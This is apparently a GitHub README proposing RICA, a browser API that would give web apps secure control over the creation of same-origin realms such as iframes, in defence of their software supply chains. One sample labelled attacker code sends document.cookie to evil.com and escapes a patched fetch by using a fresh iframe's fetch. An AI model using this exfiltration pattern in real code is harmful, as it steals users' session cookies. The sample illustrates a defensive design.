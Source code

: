 # R.I.C.A

> _**R**ealms **I**nitialization **C**ontrol **A**PI proposal (to introduce **security** to [same origin realms](#Same-Origin-Realm) in web applications)_

The **R**ealms **I**nitialization **C**ontrol **A**PI (refered to as **RICA**) should allow developers to securely tap into the creation moment of [same origin realms](#Same-Origin-Realm) within their web application in order to tame and control them.

While from a **usability** point of view this is already natively provided by the platform by using `load` events of iframes for example:

```javascript
const iframe = document.createElement('iframe');
iframe.src = 'https://payment-iframe.com/';
iframe.style.display = 'none';
iframe.onload = () => iframe.style.display = 'block';
document.body.appendChild(iframe);
```

RICA attempts to provide this from a **security** point of view, which requires addressing [same origin realms](#Same-Origin-Realm) initialization significantly different, because of how [same origin realms](#Same-Origin-Realm) can be manipulated against security mechanizms the app might wish to dictate - for example:

```javascript
// code by app - redefine fetch API to not allow leakage of PII
const realFetch = window.fetch;
window.fetch = function(resource, options) {
  if (containsPII(resource, options) {
    throw new Error(`fetch to "${resource}" is blocked for containing sensitive PII!`);
  }
  return realFetch.call(this, resource, options);
};

// code by attacker - easily escape protection by using a fresh fetch API instance from a new same origin realm
const url = `https://evil.com/stealPII?cookie=` + document.cookie;
try {
  fetch(url);
} catch (err) {
  const realm = document.body.appendChild(document.createElement('iframe')).contentWindow;
  realm.fetch(url);
}
```

## Table of contents
 
TBD

## Motivation

The problem with [same origin realms](#Same-Origin-Realm) (also known as the [same origin concern](https://weizmangal.com/content/pdf/The%20same%20origin%20concern.pdf)) isn't intuitive to comprehend becase it comes into play only when trying to harnest the power of [virtualization in JavaScript](#Virtualization-(in-JavaScript)) in favor of providing advanced security to web apps, which isn't a common usage for JavaScript to begin with, as it primarily aimed at addressing security concerns.

However, we see the importance of such use cases - while JavaScript is a great language for creating composable software, it isn't designed well enough to do so securely, especially when adjusted to run in the browser and interact with the DOM.

And since there is a clear rise in the need for easily composing web applications due to the increase in supply chain driven development, it is important to allow so.

Unfortuantly, securing a supply chain is inherently far harder than defending against good old XSS - while the latter is a rather straight forward lack of input sanitization, telling good code from bad code within the supply chain of an application is more abstract. That's why there are so many different angles to attempt to address this issue, whether at the application's runtime or its build time.

One great way to approach this problem at runtime is by [virtualization](#Virtualization-(in-JavaScript)) - redefining JavaScript [capabilities](#Capabilities) at runtime (commonly known as [monkey patching](https://blog.openreplay.com/monkey-patching-in-javascript/)) to behave similarly while hardening their security to make an effort in telling bad code from good code.

Best explained by an example.

## Example

## Terminology

### Capabilities

APIs provided by the JavaScript and/or browser execution environment (e.g. `Array`, `Object`, `fetch`, `document`, etc).

### Virtualization (in JavaScript)

Virtualization is an abstract concept that could mean many things depends on the context. In the context of JavaScript, this refers to the action of redefining builtin [capabilities](#Capabilities) in the language in order to introduce more logic into them and enhance their value.

### Realm

The technical terminology for the execution environment provided in JavaScript along with a distinct set of [capabilities](#Capabilities) mostly reachable by a representing global object. In the browser environment, the global object is accessible via `window`. Realms can be formed in various ways in the browser ecosystem, most commonly by creating `iframe`s, opening tabs or popup windows using `open` API, using `Worker`s and more. Each of those have its own set of [capabilities](#Capabilities), its own execution environment and its own global object - its own realm ([learn more](https://weizmangal.com/2022/10/28/what-is-a-realm-in-js/)).

### Same Origin Realm

In the browser ecosystem, [realms](#Realm) are associated with an origin. For example, when loading `https://facebook.com/` into the browser, the app loads into a new [realm](#Realm) that is associated with the `facebook.com` origin. Additionally, at any point the app can decide to initialize a child [realm](#Realm), and that [realm](#Realm) can also be associated with an origin. For example, if the `https://facebook.com/` app attaches into its DOM an iframe directed at `https://facebook.com/iframe-page.html`, it'll trigger the creation of a second [realm](#Realm) living within the app at runtime. And since its origin is also `facebook.com`, the two [realms](#Realm) have the same origin - hence the name.

### Cross Origin Realm

The opposite of a [same origin realm](#Same-Origin-Realm) - if the origin of realm A is not the same as the origin of realm B, that means realm A is a cross origin realm to realm B, and vice versa.
